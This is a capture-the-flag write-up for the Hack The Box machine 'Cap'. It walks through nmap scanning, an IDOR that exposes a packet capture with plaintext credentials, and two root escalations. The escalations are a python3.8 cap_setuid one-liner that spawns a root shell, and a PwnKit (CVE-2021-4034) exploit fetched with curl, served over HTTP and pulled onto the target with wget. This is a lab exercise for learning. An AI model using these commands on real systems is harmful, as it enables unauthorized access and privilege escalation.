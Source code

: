 ```yaml
---
title: Cap
published: true
layout: post
---
```


<br />

---------------
Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root.

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**
2. Scan for **services** in these open ports
3. Scan for **vulnerabilities** in these services

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.245 -p- -T4 --min-rate 5000 -oG all_ports.txt --open -n -Pn
```

![All Ports](/assets/Cap/1.png)
<br />
<br />
<br />

There are **3 open ports**:
+ **21/tcp**
+ **22/tcp**
+ **80/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.245 -p 21,22,80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![Services](/assets/Cap/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **21/tcp vsftpd 3.0.3**
+ **22/tcp OpenSSH 8.2p1**
+ **80/tcp gunicorn**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.245 -p 21,22,80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![Vulnerabilities](/assets/Cap/3.png)
<br />
<br />
<br />

We only detect a **DoS vulnerability** for the **http service**, which is not useful.

<br />

------

<br />
### Foothold

This machine's foothold was too much **CTF-like** for my taste. After investigating for possible vulnerabilities related to the services and its versions, I visited the website, where we are logged in as Nathan.

![Dashboard](/assets/Cap/4.png)
<br />
<br />
<br />

Enumerating the website, we discover **4 pages**:
- **/data**
- **/ip**
- **/netstat**
- **/capture**

<br />

We are interested in the ***/data* and */capture* pages**, these pages interact among them in a particular way. When you click on the menu option ***Security Snapshot (5 Second PCAP + Analysis)***, we are actually going to the */capture* page, this page launch a ``tcpdump`` command for 5 seconds and then redirects us to the */data* page, where we can download a **pcap file** with this data.

<br />

However, this is not exactly what we are interested in. When redirected to the data page, we can see a **number in the URL identifying the capture file**.

![Menu](/assets/Cap/5.png)
<br />
<br />
<br />

The first capture we do starts by number 1, however, we can **modify the URL** to access the **capture 0**, confirming and **IDORs vulnerability**.

![IDOR](/assets/Cap/6.png)
<br />
<br />
<br />

This pcap file contains what we are looking for:

![PCAP](/assets/Cap/7.png)
<br />
<br />
<br />

With the **credentials for the user nathan**, which works for both **ssh and ftp**, we have obtained a foothold in the target machine.

![SSH Connection](/assets/Cap/8.png)
<br />
<br />
<br />

--------------

<br />

### Privilege Escalation

For this machine, I discovered **two ways to escalate privileges**, the conventional one and an alternative one.

<br />
#### Conventional Privilege Escalation

The conventional privilege escalation method works through **capabilities**:

```bash
getcap -r / 2>/dev/null
```

![Capabilities](/assets/Cap/9.png)
<br />
<br />
<br />

The ***python3.8* binary** has the ***cap_setuid* capability** assigned to it, which allows us to **change the UID of a process**. For the privilege escalation we only have to **spawn a shell with an UID of 0**.

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![Capabilities Privesc](/assets/Cap/10.png)
<br />
<br />
<br />

#### Alternative Privilege Escalation

The alternative privilege escalation method works through **CVE-2021-4034**, which is based on giving **SUID permission to an old version of the pkexec binary**:

```bash
find / -perm -4000 -ls 2>/dev/null
```

![SUID](/assets/Cap/11.png)
<br />
<br />
<br />

To exploit this vulnerability I used the [PwnKit](https://github.com/ly4k/PwnKit){:target="_blank"} created by **ly4k**, we just have to download it in our machine:

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
sudo python3 -m http.server 80
```
<br />

And then **transfer it to the target machine and run it**:

```bash
wget http://10.10.16.5/PwnKit
chmod +x PwnKit
./PwnKit
```

![SUID Privesc](/assets/Cap/12.png)
<br />
<br />
<br />
